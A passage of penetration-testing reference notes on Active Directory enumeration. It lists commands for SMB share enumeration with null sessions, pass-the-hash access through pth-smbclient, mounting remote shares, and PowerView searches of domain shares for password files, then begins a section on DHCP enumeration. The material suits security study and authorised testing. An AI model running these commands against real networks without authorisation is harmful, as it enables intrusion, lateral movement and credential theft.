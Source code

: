 #### <mark style="color:green;">from outside:</mark>

```
smbmap -H 10.10.10.100    # null session
smbmap -H 10.10.10.100 -R # recursive listing
smbmap -H 10.10.10.100 -d test.local -u username -p password


smbclient -I 10.10.10.100 -L ACTIVE -N -U ""
use Sharename # select a Sharename
cd Folder     # move inside a folder
ls            # list files


pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
pth-smbclient -U "MEGA/administrator%password.123" //192.168.56.103/SYSVOL
ls  # list files
cd  # move inside a folder
get # download files
put # replace a file
```

<mark style="color:green;">Mount a share</mark>

```
sudo apt install cifs-utils

sudo mount -t cifs -o vers=1.0,username=user_name //server_name/share_name /mnt/data
smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
```

#### <mark style="color:green;">from inside (powrview):</mark>

```
get-netshare  
get-dfsshare
get-netfileserver 

#Enumerate Domain Shares
Find-DomainShare 

#Enumerate Domain Shares the current user has access
Find-DomainShare -CheckShareAccess  (powrview)

#Enumerate "Interesting" Files on accessible shares
Find-InterestingDomainShareFile -Include *passwords*
```

## <mark style="color:red;">Enum DHCP</mark>

When connecting a computer to most enterprise networks, if the Dynamic Host Configuration Protocol (DHCP) is enabled, it will assign an IP address to that computer, and send a lot of information. Nameservers and domain names are usually set through DHCP offer packets. On UNIX-like systems, the /etc/resolv.conf file will store information for name resolution operations after the DHCP offer.
